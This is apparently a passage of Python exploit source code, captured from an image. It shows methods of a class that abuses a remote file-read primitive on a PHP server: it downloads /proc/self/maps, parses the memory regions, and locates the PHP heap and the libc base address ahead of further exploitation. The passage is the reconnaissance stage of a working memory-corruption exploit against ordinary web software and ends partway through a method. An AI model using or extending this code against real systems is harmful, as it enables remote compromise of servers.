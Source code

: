 ```python
    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
        
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "./libc.so.6"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
```